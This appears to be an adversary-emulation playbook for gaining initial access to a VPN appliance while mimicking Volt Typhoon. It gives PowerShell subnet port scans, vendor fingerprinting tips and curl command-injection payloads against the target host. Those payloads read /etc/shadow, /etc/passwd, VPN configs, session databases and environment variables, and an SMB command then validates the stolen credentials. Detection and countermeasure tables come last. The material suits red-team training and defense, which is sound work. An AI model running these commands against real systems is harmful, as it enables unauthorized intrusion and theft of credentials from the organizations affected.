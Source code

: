 # Step 1: Initial Access

**Objective**: Exploit unpatched RCE CVE on VPN

---

## Context

- NEED ADDITIONAL INFO: VPN product/version to ID known vulnerabilities
- Target system: `dmz-vpn-elcoop-01`
- Scenario: Emulate PRC state-sponsored threat actor Volt Typhoon in performing stealthy LOLBAS attack

---

## Execution

### 1. Identify VPN Device

| **Goal**                   | **Description**                                                   | **Action**             |
|----------------------------|-------------------------------------------------------------------|------------------------------|
| Scan for VPN-related ports  | Test common VPN ports (443, 1194, 500, 4500, 80, 8080) across subnet | `Scan-VPNPorts`               |
| Check OpenVPN (TCP 1194)   | Test if TCP port 1194 responds (OpenVPN)                         | `Test-OpenVPNPort`            |
| Identify IPSec (UDP 500/4500) | UDP not supported by Test-NetConnection, requires logs or EDR   | *N/A - use passive logging*  |
| Check HTTP VPN portals     | Send web request to HTTP port and check response                 | `Check-HTTPPortal`            |
| Inspect HTTPS banner       | Pull HTTPS response headers for service fingerprinting           | `Inspect-HTTPSBanner`         |
| Extract SSL certificate    | View SSL certificate to identify VPN vendor                      | `Extract-SSLCert`             |
| Save results to file       | Log responsive IPs and ports                                     | *Append `Out-File` as needed* |

- Code Snippets

```
# Scan-VPNPorts
$subnet = "10.0.10"
$ports = @(443, 1194, 500, 4500, 80, 8080)

foreach ($i in 1..254) {
    $ip = "$subnet.$i"
    foreach ($port in $ports) {
        $result = Test-NetConnection -ComputerName $ip -Port $port -InformationLevel Quiet
        if ($result) {
            Write-Output "$ip:$port is open"
        }
    }
}
```

```
# Test-OpenVPNPort
Test-NetConnection -ComputerName 10.0.10.25 -Port 1194 -InformationLevel Quiet
```

```
# Check-HTTPPortal
Invoke-WebRequest -Uri http://10.0.10.25 -UseBasicParsing -TimeoutSec 3
```

```
# Inspect-HTTPSBanner
Invoke-WebRequest -Uri https://10.0.10.25 -UseBasicParsing -SkipCertificateCheck
```

```
# Extract-SSLCert
[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
$req = [System.Net.WebRequest]::Create('https://10.0.10.25')
$res = $req.GetResponse()
```


### 2. Fingerprint VPN 

- Gather data from banners, HTTP headers, or login pages:
  - Vendor branding (logo, HTML titles, favicon)
  - Login form patterns (e.g., /remote/login, /sslvpn/portal)
  - SSL certificate CN and issuer


| Indicator                 | Possible Vendor     |
| ------------------------- | ------------------- |
| `/remote/login`           | Fortinet, Palo Alto |
| `/dana-na/`               | Ivanti/Pulse Secure |
| `/ssl-vpn/login.cgi`      | SonicWall           |
| `CN=firewall.company.com` | Sophos, WatchGuard  |

### 3. Match to Known CVEs

- Once vendor and version are suspected, search for public vulnerabilities:
  - Use Shodan, Exploit-DB, CISA KEV List, or Rapid7 AttackerKB

- Prioritize remote code execution (RCE) or auth bypass CVEs

- Example queries:

```
"[vendor] VPN CVE RCE"
"[vendor] SSL VPN exploit GitHub"
```

### 4. Execute RCE or Authentication Bypass

- Identify the vulnerable endpoint or API
  - Use intercepting proxies like Burp Suite or manual analysis of the web interface
  - Look for HTTP endpoints accepting commands or parameters (e.g., /api/execute, /cgi-bin/, /admin/)

- Utilize payloads to execute commands remotely
Try injecting system commands in parameters or POST bodies, confirming command execution
```
curl -k -X POST "https://dmz-vpn-elcoop-01/api/execute" \
  -H "Content-Type: application/json" \
  -d '{"command":"id"}'
```
   Or, if parameters are in URL:

```
curl -k "https://dmz-vpn-elcoop-01/cgi-bin/vulnerable?cmd=whoami"
```

- Read credential files
  - Additional targets:
    - VPN config (/etc/vpn/config.conf)
    - Session database files (e.g., /var/lib/session.db)
```
curl -k -X POST "https://dmz-vpn-elcoop-01/api/execute" \
  -H "Content-Type: application/json" \
  -d '{"command":"cat /etc/passwd"}'
```

### 5. Extract Credentials 

- Dump local passwords, session files, config files, etc.

Dump config files
```
curl -k -X POST "https://dmz-vpn-elcoop-01/api/execute" \
  -H "Content-Type: application/json" \
  -d '{"command":"cat /etc/vpn/config.xml"}'
```

Dump session database
```
curl -k -X POST "https://dmz-vpn-elcoop-01/api/execute" \
  -H "Content-Type: application/json" \
  -d '{"command":"cat /var/lib/session.db"}'
``` 

Read local Linux password file
```
curl -k -X POST "https://dmz-vpn-elcoop-01/api/execute" \
  -H "Content-Type: application/json" \
  -d '{"command":"cat /etc/shadow"}'
```

Extract environment variables

```
curl -k -X POST "https://dmz-vpn-elcoop-01/api/execute" \
  -H "Content-Type: application/json" \
  -d '{"command":"printenv"}'
```
---

### 6. Validate Access

- Validate credentials with SMB authentication tests

```
net use \\TARGET_IP\C$ /user:DOMAIN\username password
```


## Result

- Grant shell access to VPN device
- Acquire and validate session domain credentials
- Establish initial foothold in dmz-subnet on `dmz-vpn-elcoop-01`



---

## Detection Opportunities
| **Vector**                   | **Description**                                                                       |
| ---------------------------- | ------------------------------------------------------------------------------------- |
| Exploit Attempt via VPN RCE  | Monitor for abnormal HTTP/S requests to VPN endpoints matching known RCE CVEs.        |
| Unusual VPN Session Patterns | Detect logins from anomalous IPs, geolocations, or odd hours.                         |
| Unexpected User Logins       | Alert on first-time logins from users to the VPN or DMZ systems.                      |
| Concurrent Sessions          | Flag if user accounts have overlapping sessions or logins from multiple IPs.          |
| VPN Log File Anomalies       | Review logs for failed logins, sudden configuration changes, or privilege escalation. |
| Credential Capture Behavior  | Monitor memory access or processes indicative of credential scraping tools.           |


---

## Defensive Countermeasures
- Enforce MFA for all VPN logins to reduce credential misuse
- Rotate VPN service credentials regularly and avoid hardcoding passwords
- Honeypot VPN gateway with decoy VPN applicances to detect scanning/exploitation
- Automatically flag suspicious VPN sessions (new users)

